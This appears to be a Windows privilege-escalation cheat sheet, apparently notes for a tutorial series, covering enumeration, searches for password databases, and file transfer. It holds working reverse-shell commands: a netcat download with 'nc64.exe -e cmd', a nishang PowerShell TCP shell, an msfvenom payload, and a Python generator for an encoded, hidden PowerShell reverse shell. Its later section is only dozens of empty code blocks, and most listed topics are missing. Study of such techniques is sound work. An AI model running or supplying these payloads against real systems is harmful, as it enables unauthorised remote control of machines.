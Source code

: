 ## Table of Contents
1. Basic
2. File System
3. Users, Privileges and Permissions
4. File Transfer
5. Reverse Shells
6. SeImpersonatePrivilege
7. SeBackupPrivilege
8. Cross Compilation
9. Services
10. Programs and Processes
11. DLL Hijacking
12. Registry
	1. Always Install Elevated
	2. Service ImagePath
	3. LoadAppInit_DLLs and AppInit_DLLs
	4. Run
	5. WinLogon
13. UAC Bypass
14. Windows Hashes
15. Credential Manager and Windows Vault
16. Scheduld Tasks
17. Enumeration Scripts
18. AMSI Bypass

## Basic

- Video:
	-  https://www.youtube.com/watch?v=-3UtOvZDWdk&list=PLJnLaWkc9xRh8hmNFWyzWMFgAHo8Lgr93&index=2&t=50s&pp=gAQBiAQB
- Text:
	- https://github.com/LeonardoE95/yt-en/blob/main/src/2024-06-19-windows-privesc-introduction-shell/content/notes.txt

operating system, version and architecture
```powershell
systeminfo
```

username
```powershell
whoami
```

get env variables
```powershell
set
```

print specific env variable value
```powershell
echo %PATH%
```

find path of executables
```powershell
where <EXE NAME>
```

get documentation
```powershell
help dir
```

## File System

search files recursively
```powershell
Get-ChildItem -Path C:\Users\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

```powershell
Get-ChildItem -Path C:\Users\ -Include *.txt -File -Recurse -ErrorAction SilentlyContinue
```

Get history in memory
```powershell
Get-History
```

Get file where the history is saved
```powershell
(Get-PSReadlineOption).HistorySavePath
```

Default location for powershell history in Windows
```powershell
%UserProfile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

 Transcript feature
```powershell
Start-Transcript -Path "C:\Users\Quickemu\Desktop\Log.txt
```

```powershell
Stop-Transcrip
```

Registry Hives
```powershell
HKEY_CLASSES_ROOT (HKCR)   -> C:\Windows\System32\Config\Software
HKEY_LOCAL_MACHINE (HKLM)  -> C:\Windows\System32\Config\SYSTEM
HKEY_USERS (HKU)           -> C:\Windows\System32\Config\DEFAULT
HKEY_CURRENT_USER (HKCU)   -> C:\Users\<UserName>\NTUSER.DAT
HKEY_CURRENT_CONFIG (HKCC) -> C:\Windows\System32\Config\SystemProfile
```

## Users, Privileges and Permissions

current user
```powershell
whoami
```

list my groups
```powershell
whoami /groups
```

privileges of current user
```powershell
whoami /priv
```

account policy for current user
```powershell
net accounts
```

list users in the system
```powershell
net user
```

list user detail
```powershell
net user <USERNAME>
```

list local users
```powershell
Get-LocalUser
```

list local groups
```powershell
Get-LocalGroup
```

gets members from a local group
```powershell
Get-LocalGroupMember <GROUP-NAME>
```

get permissions of file
```powershell
wmic useraccount get domain,name,sid
```

## File Transfer

```powershell
certutil -urlcache -split -f <URL> <OUTPUT-FILE>
```

```powershell
certutil -urlcache -split -f https://leonardotamiano.xyz/note.txt note.txt
```

```powershell
Invoke-WebRequest -uri <URL> -Outfile <OUTPUT-FILE>
```

```powershell
iwr -uri <URL> -Outfile <OUTPUT-FILE>
```

```powershell
iwr -uri https://leonardotamiano.xyz/note.txt -Outfile note.txt
```

## Reverse Shells

netcat
- windows
```powershell
iwr -uri https://raw.githubusercontent.com/int0x33/nc.exe/master/nc64.exe -Outfile netcat64.exe
```

- attacker
```powershell
nc -lvnp <PORT>
```

- windows
```powershell
nc64.exe <IP> <PORT> -e cmd
```

Invoke-PowerShellTcp
```powershell
iwr -uri https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1  -Outfile Invoke-PowerShellTcp.ps1
```

```powershell
.\Invoke-PowerShellT
```

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 192.168.122.1 -Port 43
```

msfvenom
- attacker
```powershell
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.122.1 LPORT=7777 -f exe -o malicious.exe
```

- windows
```powershell
.\malicious.exe
```

Custom powershell
```python
#!/usr/bin/env python3

import sys
import base64
#-----------------------

IP = "192.168.122.1"
PORT = 7777

def gen_payload(ip, port):
	payload = f"$client = New-Object System.Net.Sockets.TCPClient(\"{ip}\", {port});$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{{0}};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){{;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + \"PS \" + (pwd).Path + \"> \";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}};$client.Close()"
	payload = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

	return payload
#----------------------

def main():
	global IP, PORT
	ip, port = "", 0
	if len(sys.argv) < 3:
		print(f"[INFO]: Usage {sys.argv[0]} <IP> <PORT>")
		ip, port = IP, PORT
	else:
		ip, port = sys.argv[1], sys.argv[2]

	print(f"[INFO]: OK")
	print(f"[INFO]: Generating payload for {ip=} AND {port=}")

	payload = gen_payload(ip, port)

	print(f"[INFO]: Payload below\n")
	print(payload)
	print()
#---------------------

if __name__ == "__main__":
	main()
```

Executed as:
```powershell
python3 base64_powershell.py  192.168.122.1 7777
```

## SeImpersonatePrivilege


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```
